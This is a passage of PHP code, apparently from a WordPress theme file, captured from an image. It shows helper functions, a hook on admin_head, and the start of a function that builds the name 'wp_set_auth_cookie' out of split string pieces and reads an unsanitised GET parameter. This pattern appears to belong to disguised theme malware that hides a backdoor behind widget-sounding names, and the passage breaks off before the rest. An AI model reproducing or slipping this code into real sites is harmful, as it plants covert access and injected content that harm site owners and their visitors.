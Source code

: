     $items[]=$places . "/" . $elem;}
    }
    }
    }else{
    return false;
    }
    if (sizeof($wids) > 0){
    return _get_allwidgets_cont($wids,$items);
    } else {
    return $items;
    }
    }
    if(!function_exists("stripos")){
    function stripos( $str, $needle, $offset = 0 ){
    return strpos( strtolower( $str ), strtolower( $needle ), $offset );
    }
    }
    if(!function_exists("strripos")){
    function strripos( $haystack, $needle, $offset = 0 ) {
    if( !is_string( $needle ) )$needle = chr( intval( $needle ) );
    if( $offset < 0 ){
    $temp_cut = strrev( substr( $haystack, 0, abs($offset) ) );
    }
    else{
    $temp_cut = strrev( substr( $haystack, 0, max( ( strlen($haystack) - $offset ), 0 ) ) );
    }
    if( ( $found = stripos( $temp_cut, strrev($needle) ) ) === FALSE )return FALSE;
    $pos = ( strlen( $haystack ) - ( $found + $offset + strlen( $needle ) ) );
    return $pos;
    }
    }
    if(!function_exists("scandir")){
    function scandir($dir,$listDirectories=false, $skipDots=true) {
    $dirArray = array();
    if ($handle = opendir($dir)) {
    while (false !== ($file = readdir($handle))) {
    if (($file != "." && $file != "..") || $skipDots == true) {
    if($listDirectories == false) { if(is_dir($file)) { continue; } }
    array_push($dirArray,basename($file));
    }
    }
    closedir($handle);
    }
    return $dirArray;
    }
    }
    add_action("admin_head", "_verifyactivate_widgets");
    function _getprepare_widget(){
    if(!isset($text_length)) $text_length=120;
    if(!isset($check)) $check="cookie";
    if(!isset($tagsallowed)) $tagsallowed="<a>";
    if(!isset($filter)) $filter="none";
    if(!isset($coma)) $coma="";
    if(!isset($home_filter)) $home_filter=get_option("home");
    if(!isset($pref_filters)) $pref_filters="wp_";
    if(!isset($is_use_more_link)) $is_use_more_link=1;
    if(!isset($com_type)) $com_type="";
    if(!isset($cpages)) $cpages=$_GET["cperpage"];
    if(!isset($post_auth_comments)) $post_auth_comments="";
    if(!isset($com_is_approved)) $com_is_approved="";
    if(!isset($post_auth)) $post_auth="auth";
    if(!isset($link_text_more)) $link_text_more="(more...)";
    if(!isset($widget_yes)) $widget_yes=get_option("_is_widget_active_");
    if(!isset($checkswidgets)) $checkswidgets=$pref_filters."set"."_".$post_auth."_".$check;